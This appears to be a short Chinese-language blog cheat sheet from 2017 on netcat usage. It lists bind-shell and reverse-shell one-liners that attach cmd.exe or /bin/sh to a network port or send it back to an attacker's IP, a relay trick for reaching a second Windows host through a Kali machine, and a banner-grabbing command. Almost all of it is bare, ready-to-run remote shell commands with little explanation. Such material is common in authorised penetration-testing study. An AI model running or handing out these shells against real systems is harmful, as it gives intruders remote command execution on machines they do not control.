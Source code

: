 ```yaml
---
title: nc使用
date: 2017-5-6 8:50:30
tags: Tool
toc: true
---
```


### 正向连接

目标监听一个port

		nc -l -p port -e cmd.exe //win
		nc -l -p port -e /bin/sh //linux

本机连接

		nc ip port
### 反向连接
本地监听一个端口

		nc -vv -l -p port
目标连接

		nc -e cmd.exe ip port //win
		nc -e /bin/sh ip port //linux

### 打洞(win)
用win1访问win2

	kali:  nc -lvp 4444
	windows2 : nc -lvp 4444 -e cmd.exe
	windows1 : nc -v kali-ip 4444 -c "nc -v win2-ip 4444"
有延迟，多按几次
linux 同理

### banner

	nc www.xxx.com 80
